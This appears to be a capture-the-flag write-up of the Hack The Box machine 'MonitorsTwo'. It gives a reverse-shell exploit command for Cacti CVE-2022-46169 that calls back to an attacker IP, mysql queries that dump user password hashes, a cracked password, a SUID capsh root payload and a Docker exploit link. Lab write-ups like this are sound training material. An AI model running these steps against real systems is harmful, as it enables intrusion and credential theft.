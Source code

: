 ```yaml
---
title: Monitors Two Hack The Box Walkthrough
published: 2024-03-26
description: ""
image: ./cover.png
tags:
  - easy
  - htbs
category: Walkthroughs
draft: false
---
```

nmap scan

The server is running cacti 1.2.22 which is vulnerable

![](./1.png)
![](./3.png)



https://www.exploit-db.com/exploits/51166

exploit : https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=1337
```

![](./4.png)


It's is a docker container

there is a entrypoint.sh

![](./5.png)

run this command to show all the tables


```
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Let's look at the password of the users

```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
```

![](./6.png)


we got two user hashes

```
admin - $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus -
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

we where no able to find any password for the admin but we found a password for marcus

![](./7.png)

marcus - funkymonkey

let's ssh with this credentials

![](./8.png)


now we are inside the actual machine not the docker container. 

The machine is running this docker machine which is vulnerable

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

exploit : https://github.com/UncleJ4ck/CVE-2021-41091

for this exploit to run we need to root on the running container

let's run linpeas on the container

![](./9.png)


we found a suid capsh. in gtfobins we found a payload

```
capsh --gid=0 --uid=0 --
```

this gives you the root shell

![](./10.png)

now let's run the exploit
![](./11.png)

![](./12.png)


we have rooted the box.